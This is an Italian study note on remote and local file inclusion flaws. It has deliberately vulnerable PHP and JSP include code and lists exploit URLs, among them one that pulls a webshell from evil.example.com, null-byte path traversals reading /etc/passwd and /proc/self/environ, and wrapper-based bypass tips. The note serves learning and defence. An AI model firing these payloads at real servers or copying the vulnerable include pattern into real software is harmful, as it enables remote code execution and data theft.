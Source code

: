 ## File inclusion

- https://en.wikipedia.org/wiki/Remote_File_Inclusion
- https://www.owasp.org/index.php/Top_10_2007-A3

Questa vulnerabilità si ha quando un'applicazione crea un path per codice eseguibile usando una variabile che è sotto il controllo dell'attaccante,
in un modo che gli permette di controllare quale file viene eseguito.
Sfruttando una vulnerabilità di questo tipo permette una RCE sul server che esegue l'appicazione vulnerabile.

- Remote File Inclusion

	L'applicazione scarica ed esegue un file remoto.

	Exploit:

		http://localhost/vulnerabilities/fi/?page=http://172.17.0.3/rfi.php

- Local File Inclusion

	Come il RFI ma il file sfruttato è presente sul server.

	Exploit:

		http://localhost/vulnerabilities/fi/?page=/etc/passwd

**PHP**

Funzioni che includono un file per l'esecuzione sono `include` e `require`.
La direttiva `allow_url_fopen` o `allow_url_include` (in `php.ini`) abilitata permette di usare una URL per scaricare un file remoto ed eseguirlo.
Anche se disabilitato è raggirabile con compressione (`zlib://`) o stream audio (`ogg://`) che non ispezionano il flag URL PHP interno.
Si possono sfruttare anche i wrapper PHP come `php://input`.

Codice vulnerabile:

```
<form method="get">
   <select name="language">
      <option value="english">English</option>
      <option value="french">French</option>
      ...
   </select>
   <input type="submit">
</form>

<?php
   if ( isset( $_GET['language'] ) ) {
      include( $_GET['language'] . '.php' );
   }
?>
```

Exploit:

```
/vulnerable.php?language=http://evil.example.com/webshell.txt?
/vulnerable.php?language=C:\\ftp\\upload\\exploit
/vulnerable.php?language=C:\\notes.txt%00
/vulnerable.php?language=../../../../../etc/passwd%00
/vulnerable.php?language=../../../../../proc/self/environ%00
```

**JSP**

Anche le JSP sono vulnerabili a Null byte injection (`%00`)

Codice vulnerabile:

```
<%
   String p = request.getParameter("p");
   @include file="<%="includes/" + p +".jsp"%>"
%>
```

Exploit:

```
/vulnerable.jsp?p=../../../../var/log/access.log%00
```

